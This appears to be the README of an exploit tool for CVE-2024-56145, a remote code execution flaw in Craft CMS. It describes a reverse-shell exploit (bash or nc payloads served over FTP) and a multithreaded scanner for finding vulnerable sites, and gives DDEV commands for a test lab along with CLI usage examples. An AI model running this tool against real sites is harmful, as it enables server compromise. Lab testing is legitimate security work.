


# CVE-2024-56145: Craft CMS Exploitation Tool 🚨

This tool is designed to exploit a vulnerability in **Craft CMS** identified by the amazing research team at [Assetnote](https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms). The issue arises due to improper handling of user-supplied template paths, allowing attackers to achieve **Remote Code Execution (RCE)** 🛠️ via specially crafted payloads.

🙏 **Special thanks to Assetnote for their dedication to security and research.**

---

## ✨ Features

- 🚀 **Automated FTP server** to serve malicious payloads.
- 🧪 **Reverse shell payload generation** with multiple options (`bash`, `nc`).
- 🔍 **Vulnerability checker** to identify vulnerable targets.
- 🖥️ **Multithreaded support** for faster scans.
- 🛠️ **Easy-to-use CLI interface** with clear feedback.

---

## 🛡️ Setting Up a Vulnerable Lab

Follow these steps to set up a Craft CMS instance for testing purposes:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
# Configure DDEV project for Craft CMS
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="mysql:8.0" \
  --nodejs-version="20" && \
# Create the DDEV project
ddev start -y && \
# Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
# Install the specific CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
# Set the security key for Craft CMS
ddev craft setup/security-key && \
# Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
# Enable register_argc_argv for PHP
mkdir -p .ddev/php/ && \
echo "register_argc_argv = On" > .ddev/php/php.ini && \
# Final step, echo message and launch the project
echo 'Nice, ready to launch!' && \
ddev launch
```

---

## 🚨 Usage

Run the tool with the `--help` flag to view available commands:

```bash
python exploit.py --help
```

---

### 🚀 Exploit Command

To exploit a target:

```bash
python exploit.py exploit -u <TARGET_URL> -lh <LOCAL_HOST> -lp <LOCAL_PORT> -px <PAYLOAD_TYPE>
```



#### ⚙️ Options:
- `-u` / `--url`: The target URL (required).
- `-lh` / `--lhost`: Your local IP for receiving the reverse shell (required).
- `-lp` / `--lport`: The local port for the listener (required).
- `-px` / `--payload`: Payload type (`bash`, `nc`). Default: `bash`.

#### 🧪 Example:
```bash
python exploit.py exploit -u https://example.com -lh 192.168.1.10 -lp 4444 -px bash
```

---

### 🔍 Check Command

To check if a target is vulnerable:

```bash
python exploit.py check -u <TARGET_URL> -f <FILE_WITH_URLS> -t <THREADS> -o <OUTPUT_FILE>
```

#### ⚙️ Options:
- `-u` / `--url`: A single target URL.
- `-f` / `--file`: A file containing multiple URLs to scan.
- `-t` / `--threads`: Number of concurrent threads for scanning.
- `-o` / `--output`: Output file to save results.



#### 🧪 Example:
```bash
python exploit.py check -f urls.txt -t 10 -o results.txt
```

Enjoy responsibly and ethically! ✨